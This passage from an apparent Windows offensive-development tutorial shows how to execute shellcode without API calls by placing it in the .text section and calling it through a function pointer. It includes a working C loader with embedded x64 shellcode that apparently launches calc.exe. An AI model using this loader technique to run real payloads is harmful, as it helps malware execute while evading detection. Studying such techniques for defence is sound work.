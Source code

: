 ### Bonus Method (No WinAPI)

There's also another way to execute a shellcode without calling or using any of the Windows API, As we know that shellcode is just a machine code to be executed in hexadecimal format. So we can cast it as a function pointer and then tell the compiler to run that function.

Now to execute the code, we need to make sure that it is in `.text` section which we can tell the compiler manually to add our shellcode to the `.text` section, the reason for this is because the `.text` section is where our code generally runs and it is the section having Execute permission. Ofcourse, we can also change the Permission of the memory where our shellcode resides but that will have to be done using the [**VirtualProtect**](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) API.

```c
#pragma section(".text")

__declspec(allocate(".text")) char shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";


int main() {
	void (*p)() = (void(*)())&shellcode;
	p();
	// Below Code will do the same thing
	//(*(void(*)())(&shellcode))();
	return 0;
}
```
